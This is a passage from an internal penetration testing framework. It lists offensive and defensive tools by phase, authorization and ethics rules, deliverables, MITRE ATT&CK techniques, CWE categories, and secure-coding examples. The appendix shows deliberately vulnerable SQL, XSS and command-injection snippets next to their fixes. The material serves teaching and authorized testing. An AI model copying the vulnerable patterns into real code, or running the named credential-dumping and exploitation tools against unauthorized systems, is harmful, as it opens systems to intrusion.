### Industrial Control Systems (ICS/SCADA)
- OT network security
- Protocol security (Modbus, DNP3)
- Safety system integrity
- Physical process security
- Air-gap verification

---

## TESTING TOOL MATRIX

### Comprehensive Tool Selection

**Reconnaissance & OSINT**:
- theHarvester (email, subdomain enumeration)
- Maltego (relationship mapping)
- Shodan (internet-connected device search)
- Censys (certificate and service discovery)
- Amass (attack surface discovery)
- Subfinder (subdomain enumeration)
- Recon-ng (reconnaissance framework)

**Vulnerability Scanning**:
- Nessus Professional (comprehensive vulnerability assessment)
- OpenVAS (open-source vulnerability scanner)
- Qualys (cloud-based vulnerability management)
- Rapid7 Nexpose (vulnerability scanner)
- Acunetix (web application scanner)
- Netsparker (automated web security scanner)
- Nuclei (fast vulnerability scanner with templates)

**Web Application Testing**:
- Burp Suite Professional (manual + automated testing)
- OWASP ZAP (free alternative to Burp)
- Acunetix (comprehensive web scanner)
- Nikto (web server scanner)
- Wapiti (web application vulnerability scanner)
- w3af (web application attack framework)
- Arachni (web application security scanner)

**API Security**:
- Postman (API testing and automation)
- SoapUI (API functional testing)
- REST-Assured (REST API testing framework)
- OWASP ZAP (API scanning)
- Burp Suite (API manipulation)

**Network Penetration**:
- Nmap (network scanning and enumeration)
- Metasploit Framework (exploitation framework)
- Cobalt Strike (adversary simulation)
- Responder (credential capture)
- Impacket (network protocol toolkit)
- Crackmapexec (network enumeration and exploitation)

**Wireless Security**:
- Aircrack-ng (WiFi security auditing)
- Kismet (wireless network detector)
- WiFi Pineapple (wireless auditing platform)
- Reaver (WPS vulnerability testing)
- Fern WiFi Cracker (wireless security)

**Password Cracking**:
- Hashcat (fastest password recovery tool)
- John the Ripper (password cracker)
- Hydra (network logon cracker)
- Medusa (parallel password cracker)
- CeWL (wordlist generator)

**Exploitation**:
- Metasploit Framework (comprehensive exploitation)
- Exploit-DB (exploit database and search)
- SQLmap (SQL injection exploitation)
- BeEF (browser exploitation framework)
- Social-Engineer Toolkit (phishing and social engineering)

**Post-Exploitation**:
- Mimikatz (credential dumping - Windows)
- BloodHound (Active Directory mapping)
- LinPEAS (Linux privilege escalation)
- WinPEAS (Windows privilege escalation)
- PowerSploit (PowerShell exploitation framework)
- Empire (post-exploitation framework)

**Cloud Security**:
- Prowler (AWS security assessment)
- ScoutSuite (multi-cloud security auditing)
- Pacu (AWS exploitation framework)
- CloudMapper (AWS network visualization)
- MicroBurst (Azure security toolkit)
- GCPBucketBrute (GCP storage enumeration)

**Container & Kubernetes**:
- Trivy (container vulnerability scanner)
- kube-hunter (Kubernetes vulnerability scanner)
- kube-bench (CIS Kubernetes benchmark)
- Docker Bench for Security
- Anchore (container static analysis)

**Mobile Application**:
- MobSF (Mobile Security Framework)
- Drozer (Android security assessment)
- Frida (dynamic instrumentation toolkit)
- Objection (runtime mobile exploration)
- Burp Suite Mobile Assistant

**Source Code Analysis**:
- SonarQube (code quality and security)
- Semgrep (lightweight SAST)
- Bandit (Python SAST)
- Brakeman (Ruby on Rails SAST)
- ESLint with security plugins (JavaScript)
- FindSecBugs (Java SAST)

**Hardware Testing** (if applicable):
- Flipper Zero (hardware hacking multi-tool)
- HackRF One (software-defined radio)
- Proxmark3 (RFID research tool)
- Bus Pirate (hardware debugging)
- ChipWhisperer (hardware security research)

---

## LEGAL & ETHICAL FRAMEWORK

### Authorization Requirements

**Written Authorization Must Include**:
- Specific systems and IP ranges in scope
- Testing methods authorized
- Time windows for testing
- Notification requirements
- Data handling procedures
- Out-of-scope systems explicitly listed
- Liability and indemnification
- Termination conditions

**Rules of Engagement**:
- Maximum request rate to avoid DoS
- Social engineering boundaries
- Physical security testing limits
- Data access and exfiltration limits
- Persistence installation restrictions
- Third-party system exclusions

### Professional Conduct

**Ethical Guidelines**:
- Only test authorized systems
- Minimize business disruption
- Protect discovered vulnerabilities
- Maintain confidentiality
- Follow responsible disclosure
- Document all actions
- Stay within authorized scope
- Report incidents immediately

**Data Handling**:
- Treat all data as sensitive
- Do not exfiltrate actual customer data
- Use synthetic test data when possible
- Secure all testing artifacts
- Delete testing data after completion
- Follow data retention policies

---

## FINAL DELIVERABLES CHECKLIST

### Required Documentation

- [ ] Executive Summary Report (business language)
- [ ] Technical Report (detailed findings)
- [ ] Remediation Tracking Matrix
- [ ] Attack Surface Map
- [ ] Vulnerability Scoring Matrix
- [ ] Exploitation Evidence (screenshots, logs)
- [ ] Attack Chain Diagrams
- [ ] MITRE ATT&CK Navigator File
- [ ] Retest Report (after remediation)
- [ ] Compliance Mapping (if applicable)
- [ ] Presentation Deck for stakeholders
- [ ] Raw Tool Outputs (appendix)

### Report Quality Standards

**Clarity**:
- Clear, concise writing
- Technical accuracy
- No ambiguous findings
- Consistent terminology

**Completeness**:
- All findings documented
- All evidence included
- All remediation guidance provided
- All questions answered

**Actionability**:
- Specific fix recommendations
- Clear priorities
- Realistic timelines
- Resource requirements defined

**Professionalism**:
- Proper formatting
- Reviewed and edited
- Stakeholder-appropriate language
- Branded and polished

---

## SUCCESS CRITERIA

The penetration test is considered complete and successful when:

✅ **Comprehensive Coverage**: All attack vectors tested systematically

✅ **Thorough Documentation**: Complete findings with evidence and proof-of-concepts

✅ **Risk Assessment**: All vulnerabilities scored and prioritized

✅ **Actionable Remediation**: Clear, specific fix guidance provided

✅ **Stakeholder Communication**: Reports delivered to appropriate audiences

✅ **Knowledge Transfer**: Findings explained to technical and business teams

✅ **Verification Plan**: Retest methodology defined

✅ **Continuous Improvement**: Recommendations for ongoing security program

---

## ADAPTATION GUIDE

### Using This Framework

This framework is designed to be **universal and adaptable**. Here's how to customize it:

**For Different System Types**:
- **Web Applications**: Focus heavily on Vectors 1.1, 1.2
- **APIs**: Emphasize Vector 1.2 and authentication testing
- **Cloud Infrastructure**: Prioritize Vector 1.4 and configuration testing
- **Networks**: Focus on Vector 1.3 and service-level testing
- **Mobile Apps**: Emphasize Vector 1.6 and client-side security
- **IoT Devices**: Focus on firmware, embedded systems, wireless protocols

**Scaling by Engagement Size**:
- **Small Engagement (1-2 weeks)**: Focus on Phases 0, 1, 4
- **Medium Engagement (2-4 weeks)**: Execute all phases, moderate depth
- **Large Engagement (4-8 weeks)**: All phases in depth, include advanced techniques
- **Red Team Exercise (Ongoing)**: Focus on Phases 2 and persistent access

**For Different Risk Appetites**:
- **Conservative**: Stay within safe testing boundaries, avoid exploitation
- **Moderate**: Limited exploitation with strict safeguards
- **Aggressive**: Full exploitation with assumed breach scenarios (with explicit approval)

---

## FRAMEWORK METADATA

**Framework Version**: 1.0
**Last Updated**: November 2025
**Maintained By**: Security Testing Team
**Classification**: Internal Use - Confidential

**Revision History**:
- v1.0 (Nov 2025): Initial comprehensive framework release

**Feedback & Improvements**:
This framework is designed to evolve. Submit improvement suggestions to the security team for incorporation in future versions.

---

## APPENDIX

### Appendix A: MITRE ATT&CK Technique Quick Reference

**Initial Access**:
- T1190: Exploit Public-Facing Application
- T1133: External Remote Services
- T1078: Valid Accounts

**Execution**:
- T1059: Command and Scripting Interpreter
- T1203: Exploitation for Client Execution

**Persistence**:
- T1053: Scheduled Task/Job
- T1136: Create Account
- T1543: Create or Modify System Process

**Privilege Escalation**:
- T1068: Exploitation for Privilege Escalation
- T1548: Abuse Elevation Control Mechanism

**Defense Evasion**:
- T1070: Indicator Removal
- T1562: Impair Defenses
- T1027: Obfuscated Files or Information

**Credential Access**:
- T1110: Brute Force
- T1555: Credentials from Password Stores
- T1003: OS Credential Dumping

**Discovery**:
- T1083: File and Directory Discovery
- T1046: Network Service Discovery
- T1018: Remote System Discovery

**Lateral Movement**:
- T1021: Remote Services
- T1080: Taint Shared Content

**Collection**:
- T1005: Data from Local System
- T1039: Data from Network Shared Drive

**Exfiltration**:
- T1041: Exfiltration Over C2 Channel
- T1048: Exfiltration Over Alternative Protocol

### Appendix B: Vulnerability Classification Reference

**CWE Top 25**:
1. CWE-787: Out-of-bounds Write
2. CWE-79: Cross-site Scripting
3. CWE-89: SQL Injection
4. CWE-20: Improper Input Validation
5. CWE-125: Out-of-bounds Read
6. CWE-78: OS Command Injection
7. CWE-416: Use After Free
8. CWE-22: Path Traversal
9. CWE-352: Cross-Site Request Forgery
10. CWE-434: Unrestricted Upload

### Appendix C: Secure Coding Examples

**SQL Injection Prevention**:
```python
# Vulnerable
query = f"SELECT * FROM users WHERE id = {user_id}"

# Secure (Parameterized Query)
query = "SELECT * FROM users WHERE id = ?"
cursor.execute(query, (user_id,))
```

**XSS Prevention**:
```javascript
// Vulnerable
document.getElementById('output').innerHTML = userInput;

// Secure (Sanitized Output)
document.getElementById('output').textContent = userInput;
```

**Command Injection Prevention**:
```python
# Vulnerable
os.system(f"ping -c 1 {user_input}")

# Secure (Input Validation + Safe API)
import subprocess
import re

if re.match(r'^[a-zA-Z0-9.-]+$', user_input):
    subprocess.run(['ping', '-c', '1', user_input])
```

### Appendix D: Compliance Framework Mapping

**PCI-DSS Requirements**:
- Requirement 6: Develop secure systems and applications
- Requirement 11: Regularly test security systems and processes

**NIST Cybersecurity Framework**:
- Identify (ID): Asset inventory, risk assessment
- Protect (PR): Access control, data security
- Detect (DE): Security monitoring, detection processes
- Respond (RS): Incident response
- Recover (RC): Recovery planning

**ISO 27001 Controls**:
- A.12.6: Technical vulnerability management
- A.14.2: Security in development lifecycle

---

**END OF FRAMEWORK**

*This Dynamic Penetration Testing Framework provides a comprehensive, systematic approach to security testing that can be applied to any software or hardware system. Adapt the framework to your specific needs while maintaining its core principles of thoroughness, professionalism, and actionable output.*
